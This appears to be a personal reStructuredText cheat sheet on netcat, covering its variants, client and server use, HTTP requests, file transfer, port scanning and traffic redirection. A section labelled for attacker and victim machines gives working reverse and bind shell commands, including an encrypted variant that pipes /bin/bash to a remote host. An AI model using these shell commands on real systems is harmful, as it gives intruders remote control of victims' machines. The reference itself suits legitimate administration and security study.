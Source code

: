 
======
Netcat
======
* `Netcat - All you need to know <https://blog.ikuamike.io/posts/2021/netcat/>`_
    - `HN <https://news.ycombinator.com/item?id=27973020>`__
* `10 useful ncat (nc) Command Examples for Linux Systems <https://lpicentral.blogspot.com/2018/08/10-useful-ncat-nc-command-examples-for.html>`_
* `How to Use Netcat Commands: Examples and Cheat Sheets <https://www.varonis.com/blog/netcat-commands/>`_

Netcat flavors
##############
* Traditional
    - ``sudo apt install netcat-traditional``
    - if other flavor present, call ``nc.traditional`` binary
    - legacy
* GNU
    - To be `downloaded <http://netcat.sourceforge.net/>`__
    - rewritten to be more portable
    - legacy
* OpenBSD
    - ``sudo apt install netcat-openbsd`` (or just ``netcat``)
    - has ``-e`` flag deleted as dangerous
    - supports IPv6, proxies and unix sockets
* Nmap
    - ``sudo apt install ncat``
    - most feature rich

Server / Client mode
####################

Server:

.. code-block:: sh

    nc -lp 8080
    nc -ls 127.0.0.1 -p 8080  # bind to localhost
    nc -lup 8080              # udp
    nc -lk 8080               # force server to stay up
    nc -lU /tmp/socket        # listen to unix socket

Client:

.. code-block:: sh

    nc - 127.0.0.1 8080
    nc -u 127.0.0.1 8080  # udp

Reverse / Bind Shells
#####################

Reverse shells:

.. code-block:: sh

    # Server (attacker machine)
    nc -lp 8080
    # Client (victim machine)
    ncat -e /bin/bash 192.168.125.10 8080

Bind shells:

.. code-block:: sh

    # Server (victim machine)
    ncat -e /bin/bash -lp 8080
    # Client (attacker machine)
    nc 192.168.125.10 8080

Ncat encrypted reverse shell:

.. code-block:: sh

    ncat --ssl -lp 8080
    ncat --ssl -e /bin/bash 192.168.125.10 8080

    # allow connections only from specific host
    ncat --allow 127.0.0.1 -e /bin/bash -lvnp 8000

HTTP Client and Server
######################

Client:

.. code-block:: sh

    {
    cat <<EOF ; sleep 1;
    GET / HTTP/1.0
    Host: wttr.in
    User-Agent: curl

    EOF
    } | nc wttr.in 80

Server:

.. code-block:: sh

    {
    cat <<EOF ; sleep 1;
    HTTP/1.0 200 OK
    Content-Length: $(wc -c <~/.profile)

    EOF
    cat ~/.profile
    } | nc -l 8000

File Transfer
#############

Example:

.. code-block:: sh

    # server1 --> server2
    nc -lp 8080 < infile              # server1
    nc 192.168.125.10 8080 > outfile  # server2

    # server1 <-- server2
    nc 192.168.125.20 8080 < infile  # server1
    # OR nc --send-only 192.168.125.20 8080 < infile  # server1
    nc -lp 8080 > outfile          # server2

Port Scanning
#############

Example:

.. code-block:: sh

    # TCP
    nc -nvv -w 1 -z 127.0.0.1 1-65535 2>&1 |grep -v refused
    # UDP
    nc -nvv -w 1 -z -u 127.0.0.1 1-65535

Traffic Redirection
###################

Only possible on flavors with ``-e`` option:

.. code-block:: sh

    # server1 <-----> server2 <-----> server3
    # run on server2
    # 192.168.125.40 is server3
    ncat -klvnp 8000 -e "/bin/nc 192.168.125.40 8080"

    # MITM with certificate spoofing example
    curl -s https://storage.yandexcloud.net/cloud-certs/CA.pem > ca.crt
    ncat -klvnp 8443 -e "
        /usr/bin/ncat
            --ssl-verify
            --ssl-trustfile ca.pem
            rc1b-inserttheaddress.mdb.yandexcloud.net 8443
    "
    # Check it's working:
    echo 'SHOW DATABASES' |
        curl 'http://localhost:8443/?user=admin&password=NimdaLol' --data-binary @-

Other option:

.. code-block:: sh

    # One way
    nc -l 8080 | nc 192.168.1.200 80

    # Two way proxy
    mkfifo 2way
    nc -l 8080 0<2way | nc 192.168.1.200 80 1>2way
